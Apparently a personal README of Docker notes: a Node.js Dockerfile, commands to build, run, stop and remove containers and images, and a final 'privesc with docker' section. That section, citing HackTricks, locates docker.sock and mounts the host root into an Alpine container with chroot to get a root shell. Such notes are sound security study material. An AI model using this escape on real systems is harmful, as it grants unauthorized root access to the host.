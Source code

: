 ##### Installation guide

https://docs.docker.com/engine/install/ubuntu/

#### Steps to run and stop

##### create Dockerfile

```bash
touch Dockerfile
```

```bash
nano Dockerfile
```

```
# Use an official Node.js runtime as a parent image
FROM node:18

# Set the working directory inside the container
WORKDIR /app

# Copy package.json and package-lock.json to the working directory
COPY package*.json ./

# Install Node.js dependencies
RUN npm install

# Copy the rest of your application code to the container
COPY . .

# Expose the port your app will run on (e.g., 3000)
EXPOSE 3000

# Define the command to run your Node.js application
CMD ["node", "app.js"]

```

##### Build the Docker Image

```bash
sudo docker build -t rce .
```

##### Run the Docker Container

```bash
docker run -p 3000:3000 rce
```


##### Stop the Docker Container

```bash
docker ps
```

```bash
sudo docker ps
CONTAINER ID   IMAGE     COMMAND                  CREATED              STATUS              PORTS                                       NAMES
d8162fd1ab99   rce       "docker-entrypoint.s…"   About a minute ago   Up About a minute   0.0.0.0:3000->3000/tcp, :::3000->3000/tcp   funny_mestorf
```

```bash
docker stop d8162fd1ab99
```


##### Remove the Docker Container

```bash
docker ps
```

```bash
sudo docker ps
CONTAINER ID   IMAGE     COMMAND                  CREATED              STATUS              PORTS                                       NAMES
d8162fd1ab99   rce       "docker-entrypoint.s…"   About a minute ago   Up About a minute   0.0.0.0:3000->3000/tcp, :::3000->3000/tcp   funny_mestorf
```

```bash
docker stop d8162fd1ab99
```

```bash
docker rm d8162fd1ab99
```


##### remove docker images

```bash
sudo docker images
```

```bash
REPOSITORY    TAG       IMAGE ID       CREATED       SIZE
rce           latest    9815dffedc8a   3 hours ago   1.1GB
<none>        <none>    ab342d382e9c   3 hours ago   919MB
my-node-app   latest    4af22866525b   3 hours ago   919MB
<none>        <none>    3042fe5c6efc   3 hours ago   919MB
```

```bash
sudo docker rmi ab342d382e9c
Deleted: sha256:ab342d382e9cb9f371cf96badbcc91e1d3e44448d2ce0751f838fa2ea6db44ab
```
or 
```bash
sudo docker rmi -f rce
Untagged: rce:latest
Deleted: sha256:9815dffedc8a58d7dda263c219ab8b0e13890453a15c22c2ec189a19188273a9
```


##### privesc with docker

ref:- https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation#mounted-docker-socket-escape


```bash
find / -name docker.sock 2>/dev/null

/run/docker.sock
```

```bash
docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
alpine              latest              a24bb4013296        3 years ago         5.57MB
hello-world         latest              bf756fb1ae65        3 years ago         13.3kB
```

```bash
docker run -it -v /:/host/ alpine chroot /host/ bash
```
